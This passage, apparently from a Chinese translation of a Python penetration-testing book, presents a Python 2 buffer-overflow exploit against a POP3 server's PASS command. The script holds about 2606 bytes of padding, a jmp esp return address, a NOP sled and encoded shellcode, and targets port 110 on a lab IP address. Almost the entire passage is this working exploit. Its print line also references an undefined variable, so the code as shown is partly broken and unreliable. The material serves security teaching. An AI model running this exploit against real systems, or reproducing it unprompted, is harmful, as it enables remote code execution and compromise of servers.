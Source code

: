 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/14470d44-58b2-42d9-abc7-8b9eb0678fee.png)

有了前面生成的有效负载，让我们创建一个 Python 脚本来引发利用。我们将使用之前发现的`jmp esp`的位置，通过`mona`脚本。还应该注意，由于有效负载已编码，将用于解码的几个字节，还将用于填充的几个字节：

```py
#!/usr/bin/python    
import socket        
buffer=["A"]    
counter=100
buf =  ""
buf += "\xd9\xc8\xbd\xad\x9f\x5d\x89\xd9\x74\x24\xf4\x5a\x33"
buf += "\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x6f\x9b\xbf"
buf += "\x7c\x93\x4c\xbd\x7f\x6b\x8d\xa2\xf6\x8e\xbc\xe2\x6d"
buf += "\xdb\xef\xd2\xe6\x89\x03\x98\xab\x39\x97\xec\x63\x4e"
buf += "\x10\x5a\x52\x61\xa1\xf7\xa6\xe0\x21\x0a\xfb\xc2\x18"
buf += "\xc5\x0e\x03\x5c\x38\xe2\x51\x35\x36\x51\x45\x32\x02"
buf += "\x6a\xee\x08\x82\xea\x13\xd8\xa5\xdb\x82\x52\xfc\xfb"
buf += "\x25\xb6\x74\xb2\x3d\xdb\xb1\x0c\xb6\x2f\x4d\x8f\x1e"
buf += "\x7e\xae\x3c\x5f\x4e\x5d\x3c\x98\x69\xbe\x4b\xd0\x89"
buf += "\x43\x4c\x27\xf3\x9f\xd9\xb3\x53\x6b\x79\x1f\x65\xb8"
buf += "\x1c\xd4\x69\x75\x6a\xb2\x6d\x88\xbf\xc9\x8a\x01\x3e"
buf += "\x1d\x1b\x51\x65\xb9\x47\x01\x04\x98\x2d\xe4\x39\xfa"
buf += "\x8d\x59\x9c\x71\x23\x8d\xad\xd8\x2c\x62\x9c\xe2\xac"
buf += "\xec\x97\x91\x9e\xb3\x03\x3d\x93\x3c\x8a\xba\xd4\x16"
buf += "\x6a\x54\x2b\x99\x8b\x7d\xe8\xcd\xdb\x15\xd9\x6d\xb0"
buf += "\xe5\xe6\xbb\x17\xb5\x48\x14\xd8\x65\x29\xc4\xb0\x6f"
buf += "\xa6\x3b\xa0\x90\x6c\x54\x4b\x6b\xe7\x9b\x24\x89\x67"
buf += "\x73\x37\x6d\x99\xd8\xbe\x8b\xf3\xf0\x96\x04\x6c\x68"
buf += "\xb3\xde\x0d\x75\x69\x9b\x0e\xfd\x9e\x5c\xc0\xf6\xeb"
buf += "\x4e\xb5\xf6\xa1\x2c\x10\x08\x1c\x58\xfe\x9b\xfb\x98"
buf += "\x89\x87\x53\xcf\xde\x76\xaa\x85\xf2\x21\x04\xbb\x0e"
buf += "\xb7\x6f\x7f\xd5\x04\x71\x7e\x98\x31\x55\x90\x64\xb9"
buf += "\xd1\xc4\x38\xec\x8f\xb2\xfe\x46\x7e\x6c\xa9\x35\x28"
buf += "\xf8\x2c\x76\xeb\x7e\x31\x53\x9d\x9e\x80\x0a\xd8\xa1"
buf += "\x2d\xdb\xec\xda\x53\x7b\x12\x31\xd0\x8b\x59\x1b\x71"
buf += "\x04\x04\xce\xc3\x49\xb7\x25\x07\x74\x34\xcf\xf8\x83"
buf += "\x24\xba\xfd\xc8\xe2\x57\x8c\x41\x87\x57\x23\x61\x82"
buffer='A'*2606 + '\x8f\x35\x4a\x5f' + "\x90"*8 +buf

if 1:    
   print"Fuzzing PASS with %s bytes" %    len(string)    
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)    
   connect=s.connect(('192.168.250.158',110))    
   data=s.recv(1024)    
   s.send('USER root \r\n')        
   data=s.recv(1024)
   print str(data)    
   s.send('PASS    ' + buffer + '\r\n')    
   #data=s.recv(1024)
   #print str(data)    
   print "done"
   #s.send('QUIT\r\n')        
   s.close()    

```
